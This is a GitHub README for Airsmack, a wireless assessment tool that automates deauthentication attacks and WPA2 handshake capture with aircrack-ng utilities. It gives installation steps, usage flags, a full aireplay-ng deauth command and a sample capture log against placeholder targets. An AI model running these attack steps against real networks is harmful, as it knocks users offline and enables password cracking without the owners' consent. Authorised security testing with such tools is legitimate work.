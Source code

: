 # **Airsmack**

_Airsmack is a tool designed for wireless network monitoring and attack automation using Airodump-ng and related utilities._

## Overview
Airsmack streamlines *wireless security assessments* by automating data collection, deauthentication attacks, and handshake captures. It integrates *multiprocessing*, *subprocess management*, and *custom scripting* for efficient execution.

**Developed and Tested on:**
```
 Kali Linux (`latest`)
```

**Installation:**
```bash
sudo apt install cowpatty
```
```bash
git clone https://github.com/B34MR/airsmack.git
cd airsmack
pip install -r requirements.txt
```

**Docker Installation:**
```bash
git clone https://github.com/B34MR/airsmack.git
cd airsmack
docker build -t airsmack .
docker run -it --rm --privileged --network=host -v "$(pwd)":/opt/airsmack airsmack 
```

**Usage:**
```python
Usage Examples:
  python airsmack.py -i wlan0 -p5


Interface Arguments:
  -i       Set interface <wlan0>

Aireplay-ng Arguments:
  -p       Set number of deauthentication packets <5>

Global Arguments:
  --debug  Set logging level [DEBUG]
```
Run Airsmack, select target ESSID and capture the Four-way Handshake!
```python
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│                                                                                                                    │
│        / \(((_)))___ ___  ___ _    __    ___ __ __                                                                 │
│       / _ \ | | '__/ __| '_ ` _ \ / _` |/ __| |/ /                                                                 │
│      / ___ \| | |  \__ \ | | | | | (_| | (__|   <                                                                  │
│     /_/   \_\_|_|  |___/_| |_| |_|\__,_|\___|_|\_\                                                                 │
│                                                                                                                    │
╰────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Target ───────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│                                                                                                                    │
│  BSSID: BB:BB:BB:BB:BB:BB                                                                                          │
│  Channel: 7                                                                                                        │
│  Encryption: WPA2                                                                                                  │
│  SSID: Contoso                                                                                                     │
│  Client(s): CC:CC:CC:CC:CC:CC                                                                                      │
│                                                                                                                    │
╰────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Aireplay-ng ──────────────────────────────────────────────────────────────────────────────────────────────────────╮
│                                                                                                                    │
│  aireplay-ng -0 5 -a BB:BB:BB:BB:BB:BB -c CC:CC:CC:CC:CC:CC --ignore-negative-one wlan0                            │
│                                                                                                                    │
╰────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
17:00:01  Waiting for beacon frame (BSSID: BB:BB:BB:BB:BB:BB) on channel 7
17:00:02  Sending 64 directed DeAuth (code 7). STMAC: [CC:CC:CC:CC:CC:CC] [ 1|34 ACKs]
17:00:03  Sending 64 directed DeAuth (code 7). STMAC: [CC:CC:CC:CC:CC:CC] [17|64 ACKs]
17:00:04  Sending 64 directed DeAuth (code 7). STMAC: [CC:CC:CC:CC:CC:CC] [ 1|61 ACKs]
17:00:05  Sending 64 directed DeAuth (code 7). STMAC: [CC:CC:CC:CC:CC:CC] [ 6|128 ACKs]
17:00:06  Sending 64 directed DeAuth (code 7). STMAC: [CC:CC:CC:CC:CC:CC] [ 2|121 ACKs]
 [✔] Captured a Four-way Handshake!
 [✔] Four-way Handshake is most likely for: BB:BB:BB:BB:BB:BB, Contoso
 Capture file moved to: results/Contoso_April-20-2025_17:00:07.cap

 Press <ENTER> to exit
```

### Legal Disclaimer
This project is intended for educational and security research purposes only. Unauthorized use of network monitoring tools may violate laws and regulations. The developers assume no responsibility for misuse. Always ensure you have explicit permission before testing on any network.
